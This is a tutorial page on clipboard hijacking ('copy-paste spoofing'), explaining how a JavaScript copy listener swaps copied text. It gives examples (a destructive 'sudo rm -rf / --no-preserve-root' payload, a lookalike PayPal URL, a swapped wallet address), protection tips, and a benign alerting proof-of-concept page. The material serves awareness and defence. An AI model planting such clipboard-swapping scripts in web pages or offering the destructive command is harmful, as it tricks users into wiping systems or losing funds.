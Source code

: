 ```yaml
---
icon: paste
---
```


# Copy-Paste Spoofing

## Introduction

**"Clipboard Manipulation Attack"** or **"Copy-Paste Spoofing"**, where a website displays one thing visually, but when you copy it, something entirely different is placed in your clipboard.

#### **How It Works**

1. **Text Appears Normal on the Website** – The website shows a piece of text, such as a command, email, or URL.
2. **User Copies the Text** – The user highlights the visible text and copies it (Ctrl + C or right-click → Copy).
3. **Different Text is Pasted** – When the user pastes the copied content elsewhere (e.g., a terminal, browser, or document), a completely different text appears.

#### **Technical Explanation**

This happens due to **JavaScript event listeners**, which modify the clipboard content when you copy. Here’s an example of how this can be done:

```javascript
document.addEventListener("copy", function(event) {
    event.preventDefault();
    event.clipboardData.setData("text/plain", "malicious_command"); // Changes copied content
});
```

#### **Use Cases of This Attack**

* **Malicious Command Injection:**
  *   The site displays:

      ```
      sudo apt install safe-package
      ```
  *   But when pasted, it becomes:

      ```
      sudo rm -rf / --no-preserve-root
      ```

      (which would wipe a Linux system!)
* **Phishing Attack:**
  * The site shows: `https://paypal.com`
  * But copying and pasting gives: `https://paypaI.com` (with a capital "I" instead of "l").
* **Cryptocurrency Theft:**
  * The site displays: `bc1qyourwalletaddress`
  * But pastes: `bc1qattackerswallet`.

#### **How to Protect Yourself**

✅ **Paste First in a Plain Text Editor** – This removes hidden clipboard modifications.\
✅ **Use "Paste and Match Style"** – This pastes only raw text without formatting.\
✅ **Disable JavaScript on Untrusted Sites** – Prevents clipboard modifications.\
✅ **Use a Clipboard Manager** – Some clipboard tools track copied text history.



***

## Demo

#### **How It Works:**

* The text displayed on the webpage looks normal.
* But when you copy it, something entirely different is placed in your clipboard.

***

#### **📜 HTML + JavaScript Code PoC**

You can try this by saving it as an `.html` file and opening it in a browser.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Clipboard Hijack PoC</title>
    <script>
        document.addEventListener("DOMContentLoaded", function() {
            document.addEventListener("copy", function(event) {
                event.preventDefault(); // Prevent normal copying
                event.clipboardData.setData("text/plain", "echo 'You have been hacked!'");
                alert("Clipboard content modified!");
            });
        });
    </script>
</head>
<body>
    <h2>Copy this text: <span id="copyText">sudo apt install safe-package</span></h2>
    <p>Try copying the text above and pasting it elsewhere. 😉</p>
</body>
</html>
```

***

#### **🛠 Steps to Try It Out**

1. Copy the code and save it as `clipboard_attack.html`.
2. Open it in a browser.
3. Highlight and **copy** the displayed text (which appears as `sudo apt install safe-package`).
4.  **Paste it somewhere else**—you’ll see that it actually pastes:

    ```
    echo 'You have been hacked!'
    ```
5. **An alert box will pop up** when you copy, warning that the clipboard was modified.



***

## Try the Code

* [https://onecompiler.com/html/4386f4c77](https://onecompiler.com/html/4386f4c77)



